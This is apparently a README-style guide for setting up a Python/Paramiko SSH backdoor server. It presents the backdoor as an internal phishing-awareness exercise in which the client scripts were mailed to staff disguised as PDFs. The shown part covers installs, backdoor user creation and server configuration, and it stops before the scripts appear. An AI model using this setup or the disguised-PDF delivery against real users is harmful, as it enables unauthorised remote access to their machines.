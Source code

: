 # Creating a custom SSH backdoor in Python
## Introduction
During my time as a System Administrator, I was also in charge of hardening and maintaining the organizational security infrastructure. In an effort to raise cybersecurity awareness among my co-workers and combat phishing and malware attempts, I decided to write two simple scripts in Python, utilizing the Paramiko module. These two scripts, the server and client, establish an SSH connection between them. When the server-side script is executed, it begins listening for SSH connections as configured in both scripts. Once the client script is executed, it instantly connects to the server, opening an SSH backdoor that allows an attacker to execute commands on the victim's machine. I used these scripts within the organizational network, running 10-15 server scripts simultaneously, and sending the client scripts disguised as PDF files from non-organizational email addresses to random email accounts within the company, to see who downloaded the file and would attempt to open it.

## Environment
### Attack Server
- IP Address: 192.168.1.50
- OS: Ubuntu Server 22.04 LTS
- Python Version: 3.11
- PInstalled libraries: Pramiko, Colorama

### Victim Machine
- IP Address: 192.168.1.113
- OS: Windows 10 Pro

## Attack Server Side
1. If Python 3 isn't installed, install it:
   ```
    apt-get install -y python3
   ```
2. Install pip3:
   ```
   sudo apt-get update -y
   apt-get install -y python3-pip
   ```
3. Install Paramiko and Colorama libraries:
   ```
   pip3 install colorama paramiko
   ```
4. Create a user and password to be used for the backdoor SSH connection:
   ```
   useradd <username>
   passwd <unsername>
   ```
5. Set SSH password authentication for the new user:
   ```
   ssh -o PasswordAuthentication=yes <username>@<IP address>
   ```
6. Create a new Python file and upload the server script:
   ```
   vi python.py
   ```
7. Fill in the following parameters according to your specifications:
   ```
   # Login Credentials (Replace with actual values)
   USERNAME = 'username'
   PASSWORD = 'password'
   
   # Connection Credentials (Replace with actual values)
   KEY_PATH = '/etc/ssh/ssh_host_rsa_key'  # SSH RSA Keypath for connection.
   SERVER_IP = 'ip address'                # Server IP Address.
   PORT = 22                               # Connection port to the server.
   LISTEN = 5                              # Number of connections the server listens to.
   ```
   *NOTE!* To avoid occupying port 22 use a different port. In my case, I used port 2222.
   If you get this error when executing the server script:
   ```sh
   Listen/bind/accept failed: [Errno 98] Address already in use
   ```
   
   Restart the sshd service:
   ```
   service ssh restart
   ```
   
   If you do want to use port 22 you can try stopping the sshd service:
   ```
   service sshd stop
   ```
8. 
